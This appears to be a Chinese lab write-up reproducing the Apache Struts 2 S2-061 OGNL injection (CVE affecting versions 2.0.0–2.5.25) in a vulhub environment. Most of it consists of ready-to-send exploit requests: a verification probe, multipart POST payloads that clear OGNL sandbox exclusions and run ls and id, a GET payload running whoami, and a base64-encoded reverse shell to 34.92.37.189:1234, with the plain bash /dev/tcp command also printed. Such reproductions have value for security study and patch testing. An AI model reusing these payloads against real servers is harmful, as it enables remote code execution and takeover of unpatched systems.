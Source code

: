 # 0x00 软件介绍
struts2：面向JAVA EE的一款java web开发框架

# 0x01 复现环境
使用环境：vulhub中的环境：https://github.com/vulhub/vulhub/tree/master/struts2/s2-061  
复现版本：Apache Struts 2.5.25

# 0x02 环境搭建
一台云上的vps  
git clone https://github.com/vulhub/vulhub  
cd ./vulhub/  
cd ./struts2/  
cd ./s2-061/  
systemctl start docker  
docker-compose up -d

# 0x03 利用条件
此次漏洞只是S2-059修复的一个绕过，并且本次利用的核心类org.apache.commons.collections.BeanMap在commons-collections-x.x.jar包中，但是在官方的最小依赖包中并没有包含这个包。所以即使扫到了支持OGNL表达式的注入点，如果没有使用这个依赖包，也还是没办法进行利用

# 0x04 影响版本
Apache Struts 2.0.0 - Struts 2.5.25

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

EXP1（验证漏洞是否存在）：
```
http://ybdt.best:8080/?id=%25%7b+%27test%27+%2b+(2000+%2b+20).toString()%7d
```
查看返回页面的源码，如下图，包含“test2020”表示漏洞存在  
![image](./0.png)

对于命令执行，目前网上有2种利用方式

EXP2（第一种利用方式执行命令ls）：
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ls")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
如下图，成功执行命令  
![image](./1.png)

EXP3（第二种利用方式执行命令id）：  
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.110:8080/index.action
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 1361

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{
(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + 
(#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) + 
(#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) + 
(#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + 
(#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +
(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'id'}))
}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
如下图，成功执行命令  
![image](./2.png)

EXP4（使用第一种利用方式反弹shell）：  
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 918

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zNC45Mi4zNy4xODkvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
执行后返回值为空，如下图  
![image](./4.png)  
成功反弹shell，如下图  
![image](./5.png)  
其中反弹shell的命令
```
bash -i >& /dev/tcp/34.92.37.189/1234 0>&1
```
需要经过[http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)这个在线编码网站编码转化一下

EXP5（以get方式执行命令）：
```
?id=%25{(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application[%27org.apache.tomcat.InstanceManager%27]).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr[%27struts.valueStack%27]).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d{%27whoami%27}).(%23res%3d%23exec.exec(%23cmd))}
```
如下图，成功执行命令  
![image](./3.png)

# 0x06 踩坑记录
无

# 0x07 参考链接
https://mp.weixin.qq.com/s?__biz=MzkwODE4ODUzMg==&mid=2247483809&idx=1&sn=25e1749f84157647a301cfc870e3a496&chksm=c0cc8fbaf7bb06ac6a737ae1b445a7f102c12bccd1dd1b6947010cc566c222c83ca64ddaf55a&mpshare=1&scene=1&srcid=1217bML3jQDfcn08CNPB108Z&sharer_sharetime=1608161016302&sharer_shareid=2b3eb33f35dafb832c1be951576d9620&exportkey=AZZR%2F5D7iQswX%2FWvZ%2FReXw4%3D&pass_ticket=VW8a7oy0erYiAAYDw5uunYHI68W6JFU%2B8rOOlOztJ0ArCwSyttvTe%2BlX1ZOnHwv7&wx_header=0#rd  
https://www.cnblogs.com/backlion/p/14122528.html
